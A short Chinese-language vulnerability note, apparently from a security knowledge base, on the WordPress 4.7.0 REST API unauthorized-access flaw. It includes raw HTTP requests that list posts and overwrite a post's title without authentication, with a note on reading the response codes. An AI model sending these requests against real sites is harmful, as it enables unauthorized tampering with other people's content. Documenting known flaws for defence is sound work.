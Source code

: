 ### wordpress未授权访问漏洞
#### 漏洞描述
wordpress未经授权的攻击者利用该漏洞可注入恶意内容，以及进行提权，对文章、页面等内容进行修改。REST API是最近添加到WordPress 4.7.0并默认启用的。
#### 漏洞利用
查看文章列表:
```bash
GET /index.php/wp-json/wp/v2/posts HTTP/1.1
```
修改文章内容：
```bash
POST /index.php/wp-json/wp/v2/posts/500?id=500 HTTP/1.1
Host: xxx.net
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_2) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/55.0.2883.95 Safari/537.36
Content-Type: application/json
Content-Length: 43
{"title":"x x x x"}
```
说明：如果返回 401 则无权限修改；返回200表示修改成功。


### 参考文章
https://www.secpulse.com/archives/61101.html
https://www.secpulse.com/archives/40406.html
http://www.freebuf.com/vuls/126120.html